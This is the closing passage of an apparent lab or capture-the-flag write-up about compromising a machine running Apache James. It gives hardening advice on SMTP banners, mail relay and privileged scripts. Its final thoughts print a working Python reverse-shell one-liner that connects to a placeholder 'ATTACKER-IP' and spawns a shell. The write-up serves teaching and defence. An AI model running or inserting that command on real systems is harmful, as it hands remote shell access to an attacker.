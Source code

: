 4. Disable banners

    What made this machine relatively easy was the welcome banner on the SMTP port which included the vulnerable version of Apache James. Of course, disabling welcome banners prevents no one from enumerating further, but it definitely slows down attacks.

5. Prevent unauthenticated email relay

    The specific PoC from `exploitdb` basically is an exploit chain, which requires login to the SMTP service to send an email to a victim. This could be prevented by requiring mail users to login first. In combination to recommendation #2, this would have been hard to bypass.

6. Secure scripts running as a privileged user

    Scripts running as a privileged user should be properly secured to prevent tampering with. Some tips are to remove write permission to the script and to remove write permission to the directory containing the script.

---

## Final thoughts

While writing this article, there are some things that I could have done better:

- Use a tool such as [pspy](https://github.com/DominicBreuker/pspy) which will help monitor when cron jobs get executed. This is useful when you cannot see the cron jobs of other privileged users such as root, and if the timing of the cron jobs is not easily discernable.

- Spawn a root shell as a proof of full-system access. An example Python script which will spawn a reverse shell when executed from root:

    ```
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",4554));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```

Thanks for reading my post! I would love to hear your feedback, message me on [Twitter](https://twitter.com/pidnull) or send an issue for this [repo](https://github.com/guerzon/guerzon.github.io/issues/new).
